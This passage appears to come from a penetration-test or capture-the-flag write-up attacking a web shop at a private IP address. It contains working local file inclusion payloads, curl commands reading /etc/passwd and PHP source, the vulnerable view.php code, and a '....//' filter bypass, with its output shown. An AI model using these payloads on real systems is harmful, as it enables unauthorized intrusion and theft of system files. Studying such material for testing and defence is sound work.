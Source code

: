 ✅ **LFI Confirmed!** 

Interesting users discovered:
- `ubuntu` (UID 1000)
- `shopuser` (UID 1001)

### Analyzing view.php Source Code

```bash
curl -s "http://172.19.4.10/view.php?file=/var/www/html/view.php"
```

**Source Code:**
```php
<?php
$file = $_GET['file'] ?? 'pages/blue';
if (strpos($file, "..") !== false) {
    $file = str_replace('../', '', $file);
}
$path = $file;
if (is_dir($path)) {
    $path = rtrim($path, '/').'/index.txt';
}
if (file_exists($path)) {
    header('Content-Type: text/plain');
    readfile($path);
} else {
    http_response_code(404);
    echo "Not found";
}
```

**Vulnerability**: Only removes literal `../` strings, can be bypassed.

### Testing /item.php for LFI

```bash
curl -s "http://172.19.4.10/item.php?id=black-tee&spec=....//....//....//....//etc/passwd" | grep -A 5 "Technical notes"
```

**Output:**
```html
<h2>Technical notes</h2>
<div class="panel">root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

✅ **Second LFI vulnerability confirmed!** 

The filter can be bypassed using `....//` which becomes `../` after one replacement.

### Reading item.php Source Code
